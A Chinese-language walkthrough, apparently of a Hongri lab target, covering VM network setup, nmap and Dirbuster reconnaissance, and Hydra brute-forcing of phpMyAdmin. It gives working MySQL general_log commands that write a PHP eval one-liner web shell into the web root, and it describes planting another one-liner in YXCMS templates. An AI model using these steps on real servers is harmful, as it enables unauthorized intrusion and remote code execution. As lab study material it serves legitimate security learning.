 #### 思考：

1. 如何将后门程序自启动
2. metasploit 各个阶段，左边提示是不一样的，各种时候代表着什么。
3. 如何使用代理，跳板手段，内网通道构建

#### 流程要点：

1. 寻找web网站服务器漏洞，使用漏洞获取后门，并将后门持续化
2. 资料搜集，权限提升命令，还有后门程序维持
3. 使用windows shell的时候乱码  chcp 65001
4. 使用web服务器机器作为跳板代理，扫描内网。其实只是添加了另外一个网段的路由。



#### 1. 靶场配置

是因为我用mac的原因吗？一个下午，才能在自己的kali系统，ping通win7.首先是VMware Fusion需要是Pro版本，不然没发自定义VMnet，但是等我弄了Pro版本，自定义了VMnet，又发现好像不需要额外创建什么Vmnet1，VMnet2，VMnet3？？？那那些教程是干嘛的。

其次，我win7，无论是nat or 桥接， kali一直ping不通。。。搞了很久，原来是win里面网络类型，选了`工作区`我是想着，这个东西不是模拟公司内网嘛。然后用了nat或者桥接，只要开了两个网卡，kali那边即使是同一个网段，都不能打开这台win7的的服务。。。



#### 2. 信息收集

1. nmap搜集主机端口情况

```shell
nmap -sV 192.168.4.50
# 结果
Nmap scan report for 192.168.4.50
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
3306/tcp open  mysql   MySQL (unauthorized)
```

2. Dirbuster 

填入扫描主机ip，选择字典，然后刷个视频，摸一下鱼。

<img src="./images/20230409173932.jpg" style="zoom: 33%;" />

3. 看到有phpmyadmin这个目录后，别人都是弱口令root进去了，我要试试九头蛇行不行。

<img src="./images/20230409183648.jpg" style="zoom: 33%;" />

4. 冲到密码之后,看别的师傅是修改phpadmin中，写log的地址，原理应该是你执行的sql语句，都会记录到这个目录，那么加上这个靶机开启了php服务器，如果将这个log文件写到`/WWW`目录下，那么客户机是能访问到的，其次如果将php语句写入到一个php文件？ 😏

**flag：日志文件写入shell**

```shell
set global general_log="ON";
set global general_log_file="C:/phpStudy/WWW/shell.php";
select "<?php @eval($_POST['cmd']); ?>";
```

然后在蚁剑，地址写上`ip地址/shell.php`,密码是cmd

<img src="./images/20230409185306.jpg" style="zoom:33%;" />

5. 抄袭老师的做法，备份了`yxcms`的代码，然后查找关于这个`cms`的历史漏洞。然后其实这个页面红日给出了答案。

<img src="./images/20230410201037.jpg" style="zoom: 50%;" />

登录了后台管理，然后在`前台模板->管理模板文件->index_index.php`编辑首页的php代码，插入一句话木马。



#### 3. 内网渗透





